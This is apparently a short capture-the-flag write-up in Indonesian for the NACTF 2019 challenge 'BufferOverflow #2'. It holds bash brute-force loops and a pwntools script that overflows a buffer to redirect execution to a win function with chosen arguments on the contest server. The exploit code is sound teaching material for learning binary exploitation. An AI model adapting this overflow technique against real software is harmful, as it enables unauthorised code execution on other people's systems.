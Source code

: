 # BufferOverflow #2

<img src="bufo2.png"><br>
disini dapat melakukan overwrite menuju addres
<br><img src="bufo2d.png"><br>



<br>


```
for i in {1..50}; do echo $i; python -c "print 'A'*$i+'\xc2\x91\x04\x08'"| ./bufover-2 ;done
```

<br>

```
for i in {1..50}; do echo $i; python -c "print 'A'*28+'\xc2\x91\x04\x08' + 'A'*$i + '\x55\xDA\xB4\x14\x00\x00\x00\x00\xBE\xB4\x0D\xF0'"| ./bufover-2 ;done
```

<br>

```
from pwn import *

#r = process('./bufover-2')
r = remote('shell.2019.nactf.com', 31184)

win = p32(0x80491c2)
arg1 = p64(0x14b4da55)
arg2 = p32(0xf00db4be)
buff = 'A'*28

payload = buff + win + 'AAAA' + arg1 + arg2

r.sendline(payload)
r.interactive()
```
